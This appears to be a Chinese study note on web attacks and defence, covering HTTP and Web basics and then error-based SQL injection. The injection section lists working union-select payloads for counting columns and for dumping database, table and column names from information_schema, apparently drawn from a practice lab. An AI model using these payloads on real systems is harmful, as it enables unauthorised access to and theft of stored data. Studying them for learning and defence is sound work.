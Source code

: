 # Web 攻击与防御

## HTTP 和 Web 基础

[计算机网络_应用层]()

### Web

万维网（World Wide Web，WWW）简称 Web，是使用超文本传输协议（HTTP）传输网站页面和资源的一种网络应用层表现形式。  

Web 的基本结构可以简化为：

Web 浏览器 $\longleftrightarrow$ Web 服务器 $\longleftrightarrow$ 数据库服务器

* 常见的 Web 浏览器：Google Chrome、Mozilla Firefox、MicroSoft Edge、Opera 等。
* 提供 Web 服务的应用：Apache HTTP Server、Apache Tomcat、Nginx、IIS 等。
* 提供数据库服务的应用：Oracle、MySQL、Access、Redis、MongoDB、SQLite 等。

### HTTP 协议

超文本传输协议

get 和 post     

Session 和 Cookie

### HTML 与 CSS 基础

参考：[HTML 与 CSS]()

### PHP 基础

参考：[PHP]()  

## SQL 注入 

### 基于报错注入

**漏洞成因**   
未对 SQL 查询语句进行特殊字符的转义以及敏感词的过滤。

**漏洞利用**   

```sql
注入单引号、双引号、单引号加右括号等判断是否存在注入点

order by 3 %23
判断有多少列

union select 1,2,3 %23
判断数据回显位置

union select 1,user(),database() %23
显示出登录用户和数据库名

union select 1,(select group_concat(schema_name) from information_schema.schemata),3 %23
查询所有数据库名称

union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'security' ),3 %23
查询 security 库中所有表名

union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users' ),3 %23
查询 users 表中所有列名
```